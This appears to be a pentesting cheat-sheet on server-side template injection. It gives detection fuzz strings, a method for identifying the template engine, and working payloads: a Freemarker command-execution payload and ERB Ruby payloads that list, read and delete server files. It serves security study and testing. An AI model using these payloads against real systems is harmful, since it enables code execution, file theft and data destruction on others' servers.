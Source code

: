 # Extra Resources
- [SSTI Playlist - Seven Seas Security](https://www.youtube.com/playlist?list=PL1GDzLoRwyVCEG_dnWcQDbDXJSBw7lTOT)
- [James Kettle Presentation](https://portswigger.net/research/server-side-template-injection)
- [Hacktricks - SSTI Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gadgets for payloads - SSTI PwnFunction Video](https://www.youtube.com/watch?v=SN6EVIG4c-0)
# What it is
- When an attacker can inject a malicious payload through the native template language and it is executed by the server
- This happens because user input is concatenated into the template instead of being passed as data
# Context
- Plaintext context
- Code context
# Reconnaissance Methodology - How to find it
- Look for user controlled input that is reflected
- Enumerate the template engine being used by testing with multiple payloads
- If the previous step didn't work, try to trigger an error that discloses useful information
- Exploit
## Detect
- Fuzz with special characters frequently used in template expressions: 
```
${{<%[%'"}}%\
<%=foobar%>
<%= 7*7 %>
{7*7}
#{7*7}
${7*7}
{{7*7}}
${{7*7}}
[% 7*7 %]
```
- Use context-specific approaches:
    - Plaintext context
    - Code context
## Identify
![](/Images/SSTIPayloadTests.png)
- Make the application generate an error. This may disclose useful information to enumerate the template engine being used
# Some Payloads
## Craft payload
- Some of these payload may need to be prepended with appropriate characters so they close the template engine syntax correctly. E.g.: `}}`
- Some of these payload may need to be url encoded
- Use a public payload
- For more specific payloads view the resources at the top (Hacktricks and James Kettle's presentation)
## Freemarker
```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```
## ERB Ruby
```ruby
<%= Dir.entries('/').join(', ') %>
<%= Dir.glob('**file-name').first %>
<%= File.read('/file/path') %>
<%= File.delete('/file/path') %>
```
## Tornado
- Generic
```
data}}{{payload-1}}{{payload-2}}
```
- For specific payloads see Hacktricks 
